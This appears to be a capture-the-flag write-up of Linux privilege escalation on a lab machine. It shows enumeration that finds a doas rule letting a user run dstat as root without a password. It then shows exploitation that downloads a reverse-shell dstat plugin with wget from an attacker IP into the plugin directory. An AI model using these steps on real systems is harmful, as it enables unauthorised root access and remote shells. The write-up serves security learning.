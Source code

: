 user: `********************************`

---

## Privilege Escalation

---

### Enumeration

```sh
www-data@soccer:/etc/nginx/sites-enabled$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ ls /usr/local/bin

doas  doasedit  vidoas

```
[What is doas???](https://www.maketecheasier.com/what-is-install-doas/#:~:text=Doas%20is%20a%20privilege%20escalation,systems%20through%20the%20OpenDoas%20program.)

```sh
$ cat /usr/local/etc/doas.conf
cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

---

### Exploitation

[How to exploit dstat to Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

Doas permit nopass player as root do command at /sr/bin/dstat

We are prepare file dstat_exploit.py as plugin in dstat. Dstat_exploit.py is reshell python.

List and backconnect to get root Shell.

```sh
$ pwd
/usr/local/share/dstat

$ wget 10.10.14.55:1338/dstat_exploit.py
wget 10.10.14.55:1338/dstat_exploit.py --2023-04-26 01:43:27--  http://10.10.14.55:1338/dstat_exploit.py
Connecting to 10.10.14.55:1338... connected.
HTTP request sent, awaiting response... 200 OK
Saving to: â€˜dstat_exploit.pyâ€™

dstat_exploit.py    100%[===================>] 200 OK

$ dstat --list | grep exploit
dstat --list | grep exploit
        exploit     

```
